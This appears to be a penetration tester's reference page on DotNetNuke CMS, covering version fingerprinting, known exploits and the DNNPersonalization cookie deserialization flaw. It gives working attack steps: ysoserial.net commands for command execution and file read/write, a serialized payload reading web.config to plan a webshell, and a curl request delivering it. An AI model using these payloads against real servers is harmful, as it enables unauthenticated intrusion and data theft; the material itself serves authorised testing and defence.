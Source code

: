 # DotnetNuke

`DNN` (formerly `DotNetNuke`) is an open-source `Content Management System
(CMS)`, written in `C#` and based on the `.NET` framework. A number of core
features can be expended through a large panel of third-party (or
in-house) apps and modules to extend the `CMS` basic functionalities.

### Identification and discovery

###### Version disclosure

The `/Documentation/License.txt` file, if present, may hold information about
the release year of the `DotNetNuke` version being used by the webserver.

```
DotNetNuke - http://www.dotnetnuke.com
Copyright (c) 2002-2017
by DotNetNuke Corporation
[...]
```

###### Robots.txt

By default, `DotNetNuke` installation configure a verbose `robots.txt` entry,
listing a number of built-in locations.

```
Disallow: /admin/
Disallow: /App_Browsers/
Disallow: /App_Code/
Disallow: /App_Data/
Disallow: /App_GlobalResources/
Disallow: /bin/
Disallow: /Components/
Disallow: /Config/
Disallow: /contest/
Disallow: /controls/
Disallow: /DesktopModules/
Disallow: /Documentation/
Disallow: /HttpModules/
Disallow: /images/
Disallow: /Install/
Disallow: /js/
Disallow: /Portals/
Disallow: /Providers/
Disallow: /Resources/ContentRotator/
Disallow: /Resources/ControlPanel/
Disallow: /Resources/Dashboard/
Disallow: /Resources/FeedBrowser/
Disallow: /Resources/OpenForceAd/
Disallow: /Resources/Search/
Disallow: /Resources/Shared/
Disallow: /Resources/SkinWidgets/
Disallow: /Resources/TabStrip/
Disallow: /Resources/Widgets/
Disallow: /Activity-Feed/userId/	# Do not index user profiles
```

### Known vulnerabilities

###### ExploitDB exploits (as of 2021-08-08)

```
searchsploit DotNetNuke

DotNetNuke - Arbitrary File Upload                                                 | asp/webapps/12700.txt
DotNetNuke - Cookie Deserialization Remote Code Execution (Metasploit)             | windows/remote/48336.rb
DotNetNuke 07.04.00 - Administration Authentication Bypass                         | asp/webapps/39777.txt
DotNetNuke 4.0 - HTML Injection                                                    | asp/webapps/28615.txt
DotNetNuke 4.8.1 - Default 'ValidationKey' and 'DecriptionKey' Weak Encryption     | windows/remote/31465.cs
DotNetNuke 4.8.3 - 'Default.aspx' Cross-Site Scripting                             | asp/webapps/31865.txt
DotNetNuke 4.9.3 - 'ErrorPage.aspx' Cross-Site Scripting                           | asp/webapps/33009.txt
DotNetNuke 5.5.1 - 'InstallWizard.aspx' Cross-Site Scripting                       | asp/webapps/35045.txt
DotNetNuke 6.1.x - Cross-Site Scripting                                            | asp/webapps/38696.txt
DotNetNuke 9.3.2 - Cross-Site Scripting                                            | multiple/webapps/47449.txt
DotNetNuke 9.5 - File Upload Restrictions Bypass                                   | aspx/webapps/48125.txt
DotNetNuke 9.5 - Persistent Cross-Site Scripting                                   | aspx/webapps/48124.txt
DotNetNuke < 9.4.0 - Cross-Site Scripting                                          | multiple/webapps/47448.py
DotNetNuke DNNArticle Module 10.0 - SQL Injection                                  | php/webapps/27602.txt
DotNetNuke DNNarticle Module 11 - Directory Traversal                              | windows/webapps/44414.txt
DotNetNuke DNNspot Store 3.0.0 - Arbitrary File Upload (Metasploit)                | windows/webapps/35039.rb
DotNetNuke DreamSlider 01.01.02 - Arbitrary File Download (Metasploit)             | aspx/webapps/43405.rb
SharePoint 2007/2010 and DotNetNuke < 6 - File Disclosure (via XEE)                | windows/webapps/17873.txt
```

######  Cookie Deserialization Remote Code Execution (CVE-2017-9822)

A deserialization vulnerability is present in the `DotNetNuke (DNN)` CMS,
versions `5.0.0` to `9.3.0-RC`, which can be leveraged to remotely execute code
on the underlying system without authentication. The vulnerability lies in the
deserialization of the `DNNPersonalization` cookie (`XML` format), used to
store (authenticated or unauthenticated) user's preferences. This cookie is
notably processed during handling of `404` errors if the built-in default
`DNN`'s missing page is used.

While the object `type` to deserialize is user-controlled in the
`DNNPersonalization` cookie, the `XmlSerializer` class (used by `CNN` for the
processing) cannot be used to serialize / deserialize types with interface
members. As stated in the
[original research paper](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf),
the `ObjectDataProvider` class can be used in combination with one of the
following methods:
  - `XamlReader.Load(String)`, leading to remote code execution.
  - `ObjectStateFormatter.Deserialize(String)`, leading to remote code
    execution.
  - `DotNetNuke.Common.Utilities.FileSystemUtils.PullFile(String)`, for
    arbitrary file write (for example to upload a `webshell` if a writable
    path can be found).
  - `DotNetNuke.Common.Utilities.FileSystemUtils.WriteFile(String)`, for
    arbitrary file read.

Note that the usable types may be limited to `DotNetNuke.*` classes (and thus
to arbitrary file read / write).

The initial vulnerability is identified by `CVE-2017-9822`, with a number of
bypass of the attempts at fixing the initial bug identified as
`CVE-2018-15811`, `CVE-2018-15812`, `CVE-2018-15825`, and `CVE-2018-15826`.

The following `DotNetNuke` versions are vulnerable:
  - `5.0.0 to 9.1.0`
    ([CVE-2017-9822](https://www.cvedetails.com/cve/CVE-2017-9822/))
  - `9.1.1` ([CVE-2018-15811](https://www.cvedetails.com/cve/CVE-2018-15811/))
  - `9.2 to 9.2.1`
    ([CVE-2018-15811](https://www.cvedetails.com/cve/CVE-2018-15811/))
  - `9.2.2 to 9.3.0-RC`
    ([CVE-2018-15825](https://www.cvedetails.com/cve/CVE-2018-18325) and
    [CVE-2018-15825](https://www.cvedetails.com/cve/CVE-2018-18325))

###### Metasploit module (for pre and post CVE-2017-9822 patching exploit)

The `Metasploit`'s `exploit/windows/http/dnn_cookie_deserialization_rce` module
can be used to exploit the deserialization remote code execution vulnerability,
prior to the initial patching `CVE-2017-9822` and using the subsequent bypass.

The "[How to exploit the DotNetNuke Cookie
Deserialization](https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization/)"
blog post can be consulted for information on how to exploit the vulnerability
using `metasploit` depending on the targeted version.

```
msf > use exploit/windows/http/dnn_cookie_deserialization_rce
```

###### Pre-patching exploitation (CVE-2017-9822) using ysoserial

`ysoserial.net` can be used to generate `DotNetNuke` cookies that will result
in the execution of the specified command or arbitrary read / write of the
given file against `DotNetNuke` version `5.0.0 to 9.1.0`.

```
ysoserial.exe -p DotNetNuke -m run_command -c "<COMMAND>"
ysoserial.exe -p DotNetNuke -m read_file -f "<FILE | FILE_FULL_PATH>"
ysoserial.exe -p DotNetNuke -m write_file -u "<FILE_TO_FETCH_URL>" -f "<FILE>"

# Retrieves the "web.config" configuration file (in its default location) in order to identify the webserver hosted directories for the upload o a webshell.
.\ysoserial.exe -p DotNetNuke -m read_file -f C:\DotNetNuke\web.config
<profile><item key="name1: key1" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"><ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><ExpandedElement/><ProjectedProperty0><MethodName>WriteFile</MethodName><MethodParameters><anyType xsi:type="xsd:string">C:\DotNetNuke\web.config</anyType></MethodParameters><ObjectInstance xsi:type="FileSystemUtils"></ObjectInstance></ProjectedProperty0></ExpandedWrapperOfFileSystemUtilsObjectDataProvider></item></profile>
```

The generated serialized cookie can then be sent to a non-existing page using,
for example, the `curl` utility:

```
curl -i -s -k -X 'GET' \
    -b '.DOTNETNUKE=;DNNPersonalization=<SERIALIZED_PAYLOAD>' \
    'http://<IP | HOSTNAME>/pagedoesnotexist123456789abc'
```

--------------------------------------------------------------------------------

### References

https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf
https://www.exploit-db.com/exploits/48336
https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization/
